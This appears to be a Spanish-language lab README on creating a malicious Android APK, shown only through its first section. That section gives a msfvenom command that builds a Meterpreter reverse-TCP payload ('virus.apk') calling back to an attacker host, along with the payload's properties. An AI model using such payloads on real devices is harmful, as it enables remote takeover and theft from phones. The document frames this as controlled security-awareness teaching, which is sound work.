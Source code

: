 # Creación de APK Malicioso para Android y Medidas de Protección

## 📖 Introducción

Este laboratorio demuestra la creación y ejecución de una aplicación Android maliciosa en un **entorno controlado**, con el objetivo de concienciar sobre los riesgos de seguridad en dispositivos móviles y mostrar tanto técnicas ofensivas como defensivas.

**⚠️ AVISO LEGAL**: Este proyecto se realizó exclusivamente en un entorno controlado con fines educativos. El uso de estas técnicas sin autorización explícita es ilegal.

## 📑 Índice

1. [Creación del APK Malicioso](#1-creación-del-apk-malicioso)
2. [Servidor de Distribución](#2-servidor-de-distribución)
3. [Análisis de Seguridad del Dispositivo](#3-análisis-de-seguridad-del-dispositivo)
4. [Establecimiento de la Conexión](#4-establecimiento-de-la-conexión)
5. [Ejecución de Comandos Remotos](#5-ejecución-de-comandos-remotos)
6. [Medidas de Protección](#6-medidas-de-protección)

---

## 1. Creación del APK Malicioso

Para esta fase se utilizó **Msfvenom**, una potente herramienta incluida en el framework Metasploit que permite generar payloads personalizados para múltiples plataformas. Msfvenom combina las funcionalidades de msfpayload y msfencode, facilitando la creación de exploits codificados.

### Comando Ejecutado:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP_OCULTA] LPORT=[PUERTO_OCULTO] > virus.apk
```

![Creación del APK](images/Captura-1.png)

**Características Técnicas del Payload:**
- **Plataforma**: Android (seleccionada automáticamente por el payload)
- **Arquitectura**: Dalvik (la máquina virtual de Android)
- **Tipo**: Meterpreter reverse TCP - establece conexión saliente hacia el atacante
- **Tamaño**: 10238 bytes de payload sin codificar
- **Encoder**: No se especificó encoder, salida en raw payload
